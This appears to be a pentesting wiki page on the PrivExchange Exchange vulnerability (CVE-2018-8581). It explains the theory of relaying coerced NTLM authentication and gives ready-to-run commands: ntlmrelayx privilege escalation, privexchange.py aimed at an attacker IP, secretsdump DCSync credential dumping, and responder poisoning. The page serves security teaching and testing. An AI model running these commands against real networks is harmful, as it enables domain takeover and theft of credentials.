 ```yaml
---
description: CVE-2018-8581
---
```


# PrivExchange

## Theory

PrivExchange relay on the [PushSubscription coerced authentication](../mitm-and-coerced-authentications/pushsubscription-abuse.md), PushSubscription is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)).&#x20;

As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Practice

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

{% tabs %}
{% tab title="Exploit - with creds" %}
First, start the NTLM relay that will escalate privileges

```bash
# NTLM relaying is used to relay connexion and give DCSync privileges
ntlmrelayx.py -t ldap://$DC --escalate-user $USER_TO_ESCALATE
```

Using [PrivExchange](https://github.com/dirkjanm/privexchange/), we can log in on Exchange Web Services and call the API. The user must have a mailbox to make the coerced authentication.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

We can now dump domain credentials throught DCSync

```bash
secretsdump.py $DOMAIN/$USER_TO_ESCALATE@$DC -just-dc
```
{% endtab %}

{% tab title="Exploit - without creds" %}
If you don't have any credentials, it is still possible to [relay the authentication](../ntlm/relay.md) to make the API call. The [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) script can be used with ntlmrelayx.py to perform this attack. It uses NTLM Relaying with LLMNR / NBT-NS to relay captured credentials over the network.

Using the modified httpattack.py, we can use ntlmrelayx to perform this attack.

```bash
#Backup the old httpattack.py
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/
mv httpattack.py httpattack.py.old

#Replace it
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
#Edit the attacker_url parameter (the host to which Exchange will authenticate)
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py

#Build the env
cd /PATH/TO/impacket
virtualenv venv && source venv/bin/activate
pip install .

#Start relay
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```

We can now use LLMNR/NBT-NS/mDNS poisoning with responder, to capture credentials and relay them:

```bash
responder -i eth0
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
